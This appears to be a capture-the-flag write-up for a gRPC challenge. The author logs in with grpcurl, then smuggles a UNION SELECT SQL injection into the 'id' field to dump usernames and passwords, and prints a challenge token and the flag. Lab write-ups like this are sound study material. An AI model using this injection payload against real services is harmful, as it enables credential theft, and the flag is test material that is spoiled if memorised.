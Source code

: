 

Figure out what the cat does when it is parked in reverse!

[http://kicyber2024-58413b785268-rpc1-0.chals.io](http://kicyber2024-58413b785268-rpc1-0.chals.io/)  
`nc 0.cloud.chals.io 11786`  
`nc 0.cloud.chals.io 12188`

![[Pasted image 20240811045456.png]]



Install golang first 


![[Pasted image 20240811042449.png]]

```shell

grpcurl -d 'username: "dkvv", password: "dkvv"' -plaintext -format text 0.cloud.chals.io:11414 SimpleApp.LoginUser

```
![[Pasted image 20240811042537.png]]



```shell 
grpcurl -v -d 'username: "dkvv", password: "dkvv"' -plaintext -format text 0.cloud.chals.io:11414  SimpleApp.LoginUser

```


![[Pasted image 20240811042731.png]]

Token 
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiZGt2diIsImV4cCI6MTcyMzM0MDY0Mn0.0ZRIqTayBAQfjUabNqaibgRpPPSK0KyFXcH18C-5cPw
```

Then used the following command

```shell

grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiZGt2diIsImV4cCI6MTcyMzM0MDY0Mn0.0ZRIqTayBAQfjUabNqaibgRpPPSK0KyFXcH18C-5cPw" -plaintext -format text 0.cloud.chals.io:11414 SimpleApp.getInfo
message: "admin:admin,anish_mitra:KPMG_s3cret_pa55w07d_123,dkvv:dkvv"
```

![[Pasted image 20240811044156.png]]

![[Pasted image 20240811044406.png]]


The flag is
`KPMG_CTF{RaoGJ8Ahgzy35xOVgesBs1UR02LsFodAPaXc2GEXLYb1UQjck5G0rkbev4jax6F-qDYnuA6f-YO6KBPPX8TESJlkIUZZQyy1jSMgG7uO}`

